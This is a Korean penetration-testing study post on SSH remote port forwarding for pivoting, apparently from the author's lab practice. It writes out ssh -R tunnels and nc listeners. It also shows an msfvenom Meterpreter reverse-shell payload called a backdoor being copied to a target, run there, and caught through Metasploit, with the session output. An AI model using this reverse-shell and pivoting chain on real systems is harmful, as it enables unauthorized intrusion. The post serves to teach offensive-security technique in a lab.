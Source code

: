 ```yaml
---
title:  "Remote Port Forwarding"
excerpt: "Remote Port Forwarding에 대해 알아보자."

categories: pnt
tags:
  - [pivoting, tunneling, penetrate, penetration, 'post-exploit', 'port fowarding', network]

typora-root-url: ../../
 
date: 2025-09-02
last_modified_at: 2025-09-02

---
```

**☀️<u>공지 사항</u>☀️** 해당 페이지는 `Red Raccoon - PNT` 학습 후 추가적인 개인 공부를 통해 재구성 및 실습한 내용입니다. 필자의 환경에 맞게 공부 및 실습을 진행하여 이 점 참고 바랍니다.
{: .notice--danger}

# Remote Port Fowarding

## 개요
리모트 포트 포워딩(Remote Port Forwarding)은 로컬 포트 포워딩의 반대 개념으로 원격 서버에서 포트 수신을 열어 외부에서 내부 네트워크 서비스에 접근할 수 있게 하는 SSH 기반 터널링 기술이다.

주로 리모트(원격) 호스트에 들어오는 트래픽을 현재 공격자의 호스트의 서비스로 전단할 때 주로 사용된다.

리모트 포트 포워딩(Remote Port Forwarding)과 리버스 포트 포워딩(Reverse Port Forwarding)은 본질적으로 같은 개념을 가리키는 용어이다.

## 리모트 포트 포워딩 예시
로컬 포트 포워딩은 대상 호스트의 방화벽이나 보안 정책을 우회하기 위해 사용했다.

리모트 포트 포워딩은 `대상 호스트 -> 공격자 호스트`로 접근 하려고 할 때 이를 제지하는 네트워크 경계를 우회하기 위해 사용된다.

- 명령어 예시:

```bash
ssh -R [원격의 IP:PORT]:[목표 서버 IP:PORT] [SSH 서버 주소]

ssh -R 8000:192.168.0.10:80 vps.example.com
```
위 명령은 vps.example.com의 8000번 포트로 들어오는 요청을 192.168.10.80 으로 전달시킨다.


## 사용하는 상황
- 리버스쉘 / 에이전트 콜백
- 공격자 호스트로부터 파일 다운로드를 하기 위해
- 내부망에 서비스가 있지만 외부에서 직접 접근할 수 없는 경우(방화벽, NAT 등).
- 모의해킹 중 피벗팅, 우회 공격에 활용: 이미 침투한 시스템의 내부 서비스를 외부 협력자에게 노출할 때.
- 사내 PC, 개발 서버에 워크스페이스, 웹 서버, DB 등 테스트용 자원 접근 시 활용.
- 제한된 네트워크 환경에서 SSH 터널을 통해 외부 접근 루트 개방.


## 예시 1: 원격 호스트에서 echo 메시지 보내기
피벗 호스트: 10.1.10.10/10.1.20.10 (DMZ/IT) | SSH/22		, 대상 호스트: 10.1.20.50 | SSH/22


#### 1. 리모트 포트 포워딩: SSH Tunneling 설정
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ ssh -R 10.1.20.10:4444:10.8.0.37:1234 ansible@10.1.10.10 
[ . . . ]

# netstat 으로 Port 상태 확인하기
ansible@web-10-1-10-10:~$ netstat -tula 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN    

#10.1.20.50로 ssh
ansible@web-10-1-10-10:~$ ssh ansible@10.1.20.50

```

#### 2. 공격 호스트에서 리스너 생성
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ nc -l -p 1234
```

#### 3. 대상 호스트에서 `echo 'hi'` 피벗 호스트(10.1.20.10) 포트 4444로 전송
```bash
ansible@ip-10-1-20-50:~$ echo "hi" | nc 10.1.20.10 4444
```

#### 4. 공격 호스트에서 메시지 확인
```bash
# 피벗 호스트에 설정된 리모트 포트 포워딩으로 포트 4444로 받는 트래픽을 포트 1234로 전달됨. hi가 나오면 성공
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ nc -l -p 1234
hi
```


## 예시 2: 피벗 호스트과 리모트 포트 포워딩을 통한 리버스 쉘
피벗 호스트: 10.1.10.10/10.1.20.10 (DMZ/IT) | SSH/22		, 대상 호스트: 10.1.20.50 | SSH/22

익스플로잇은 "이미 성공했다고 가정하고(Assumed Breach)", 마지막 단계에서 리버스 쉘을 피벗 호스트로 콜백 시킨 뒤, 리모트 포트 포워딩을 통해 공격자 칼리 리눅스로 받아내는 실습

#### 1. msfvenom - create payload 
리버스쉘이 콜백할 도착 주소는 피벗 호스트(10.1.10.10/10.1.20.10)의 포트 4444이다. 대상 호스트(10.1.20.50)는 피벗 호스트와 10.1.20.0/24 네트워크 안에서 통신이 가능할거기 때문에, 도착 아이피주소는 10.1.20.10으로 지정한다.
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.1.20.10 LPORT=4444 -f elf -p namgi_backdoor
```

#### 2. 대상 서버로 페이로드 전송
먼저 backdoor 페이로드를 scp 명령어를 사용해 공격자 호스트에서 피벗 호스트(10.1.10.10/10.1.20.10)로 복사한다.
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ scp namgi_backdoor ansible@10.1.10.10:/home/ansible
```

그 후, 피벗 호스트 10.1.10.10에 SSH 로그인 후 , 해당 backdoor 페이로드를 다시 대상 호스트(10.1.20.50)로 복사한다.
```bash
ansible@web-10-1-10-10:~$ scp namgi_backdoor ansible@10.1.20.50:/home/ansible
```

#### 3. 리모트 포트 포워딩: SSH Tunneling
피벗 호스트의 포트 4444로 들어오는 모든 트래픽을 공격자 호스트로 전달되게 포트 포워딩 설정
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ ssh -R 10.1.20.10:4444:0.0.0.0:1234 ansible@10.1.10.10
```

#### 4. multi handler 리스너 생성
리버스 쉘의 콜백을 받고 연결할 핸들러를 공격자 호스트에서 실행시켜준다. 리모트 포트 포워딩이 완료되면 공격자 호스트의 `0.0.0.0:1234`에 트래픽이 도착하니 설정에 참고해서 작성해준다.
```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:1234
```

#### 5. 대상 호스트에서 `backdoor` 페이로드 실행
```bash
ansible@ip-10-1-20-50:~$ ./namgi_backdoor
```

#### 6. Metasploit Listener 확인
```bash
msf6 exploit(multi/handler) > run    
                                           
[*] Started reverse TCP handler on 0.0.0.0:1234 
[*] Sending stage (3045380 bytes) to 127.0.0.1
[*] Meterpreter session 5 opened (127.0.0.1:1234 -> 127.0.0.1:55454) at 2025-09-02 13:42:25 -0400

meterpreter > ipconfig
Interface  2
============
Name         : ens5
[ . . . ] 
IPv4 Address : 10.1.20.50
```

#### 7. 리모트 포트 포워딩 확인
```bash
# 리모트 포트 포워딩 설정 성공!
debug1: Remote connections from 10.1.20.10:4444 forwarded to local address 0.0.0.0:1234
[ . . . ]

# 리버스쉘 콜백 이후 - 포워딩 시작... 10.1.20.10:4444 --> (칼리 리눅스) 0.0.0.0:1234
debug1: remote forward success for: listen 10.1.20.10:4444, connect 0.0.0.0:1234
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 10.1.20.10 port 4444, originator 10.1.20.50 port 32914
debug1: connect_next: start for host 0.0.0.0 ([0.0.0.0]:1234)
debug1: connect_next: connect host 0.0.0.0 ([0.0.0.0]:1234) in progress, fd=4
debug1: channel 0: new forwarded-tcpip [10.1.20.50] (inactive timeout: 0)
debug1: confirm forwarded-tcpip

# 포워딩 성공, 0.0.0.0:1234로 트래픽 전달 완료. 
debug1: channel 0: connected to 0.0.0.0 port 1234
```





